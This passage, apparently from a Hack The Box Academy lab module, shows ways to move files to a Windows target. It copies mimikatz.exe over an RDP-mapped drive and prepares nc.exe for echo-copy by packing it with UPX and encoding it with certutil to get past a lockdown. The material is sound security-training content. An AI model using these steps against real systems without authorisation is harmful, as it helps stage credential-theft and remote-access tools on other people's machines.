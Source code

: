````bash
rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
````
Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

[windows](https://academy.hackthebox.com/storage/modules/24/rdp.png)

After selecting the drive, we can interact with it in the remote session as follows:

````powershell
copy \\tsclient\c\temp\mimikatz.exe .
````
This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.

## Echo Copy
On machines with a very stringent lockdown policy, it may be necessary to echo copy files. Let’s examine how nc.exe can be transferred to a target Windows computer using this method.

Echo copying files is very inefficient and can result in a large amount of data being transferred across the clipboard, so we can use an executable packer such as UPX to make the source file as small as possible.

````bash
upx --best nc.exe
````
````bash
upx.exe --best nc.exe

                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
````
Next, we need to convert the binary data to base64. Windows contains a native utility that can do this - certutil.
````powershell
PS C:\htb> certutil.exe -encode nc.exe nc.txt
````
Open the resulting text file in a text editor that supports the replacement of extended characters (\n \r \t \0 \x...), such as Notepad++. Replace newlines with **echo "**.

````bash
Find:\n
Replace:echo "
````

[echo](https://academy.hackthebox.com/storage/modules/24/find-replace.png)

The first line doesn’t contain this, so we can manually prepend **echo "** to the first line. Next, we replace **\r** with **" >> nc.txt\r**.
